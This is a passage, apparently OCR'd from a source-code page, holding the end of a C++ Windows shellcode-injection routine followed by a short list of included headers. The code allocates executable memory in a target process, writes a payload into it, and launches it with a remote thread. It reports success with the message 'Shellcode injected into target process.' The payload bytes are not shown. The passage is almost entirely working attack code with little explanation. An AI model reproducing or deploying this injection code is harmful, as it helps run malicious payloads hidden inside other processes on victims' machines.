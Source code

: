 ```C++
    }

    LPVOID remoteBuffer = VirtualAllocEx(hProcess, NULL, sizeof(payload), (MEM_RESERVE | MEM_COMMIT), PAGE_EXECUTE_READWRITE);
    if (remoteBuffer == NULL) {
        std::cerr << "Failed to allocate memory in the target process. Error: " << GetLastError() << std::endl;
        CloseHandle(hProcess);
        return 1;
    }

    if (WriteProcessMemory(hProcess, remoteBuffer, payload, sizeof(payload), NULL) == 0) {
        std::cerr << "Failed to write memory in the target process. Error: " << GetLastError() << std::endl;
        VirtualFreeEx(hProcess, remoteBuffer, 0, MEM_RELEASE);
        CloseHandle(hProcess);
        return 1;
    }

    HANDLE remoteThread = CreateRemoteThread(hProcess, NULL, 0, (LPTHREAD_START_ROUTINE)remoteBuffer, NULL, 0, NULL);
    if (remoteThread == NULL) {
        std::cerr << "Failed to create remote thread. Error: " << GetLastError() << std::endl;
        VirtualFreeEx(hProcess, remoteBuffer, 0, MEM_RELEASE);
        CloseHandle(hProcess);
        return 1;
    }


    std::cout << "Shellcode injected into target process." << std::endl;

    WaitForSingleObject(remoteThread, INFINITE);
    CloseHandle(remoteThread);
    VirtualFreeEx(hProcess, remoteBuffer, 0, MEM_RELEASE);
    CloseHandle(hProcess);

    return 0;
}

```

&nbsp;

&nbsp;

## **Includes**

Including headers:

- **iostream** - Standard Input/Output
- **Windows.h** - For interacting with the Windows API
- **tlhelp32.h** - For managing processes
